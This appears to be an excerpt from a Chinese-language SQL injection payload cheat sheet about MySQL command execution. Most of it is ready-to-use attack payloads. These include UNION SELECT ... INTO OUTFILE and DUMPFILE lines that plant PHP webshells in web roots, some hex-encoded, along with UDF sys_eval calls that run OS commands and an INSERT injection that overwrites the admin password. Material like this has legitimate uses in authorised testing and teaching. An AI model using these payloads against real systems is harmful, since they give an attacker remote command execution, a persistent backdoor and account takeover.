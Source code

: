 ## MYSQL 命令执行

### WEBSHELL - OUTFILE 方法

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

### WEBSHELL - DUMPFILE 方法

```sql
[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```

### COMMAND - UDF 库

首先，你需要检查服务器上是否安装了 UDF。

```powershell
$ whereis lib_mysqludf_sys.so
/usr/lib/lib_mysqludf_sys.so
```

然后可以使用 `sys_exec` 和 `sys_eval` 等函数。

```sql
$ mysql -u root -p mysql
Enter password: [...]

mysql> SELECT sys_eval('id');
+--------------------------------------------------+
| sys_eval('id')                                   |
+--------------------------------------------------+
| uid=118(mysql) gid=128(mysql) groups=128(mysql) |
+--------------------------------------------------+
```

## MYSQL 插入

`ON DUPLICATE KEY UPDATE` 关键字用于告诉 MySQL 当应用程序尝试插入已存在于表中的行时应该做什么。我们可以使用这个关键字来更改管理员密码：

通过 payload 注入：

```sql
attacker_dummy@example.com", "P@ssw0rd"), ("admin@example.com", "P@ssw0rd") ON DUPLICATE KEY UPDATE password="P@ssw0rd" --
```
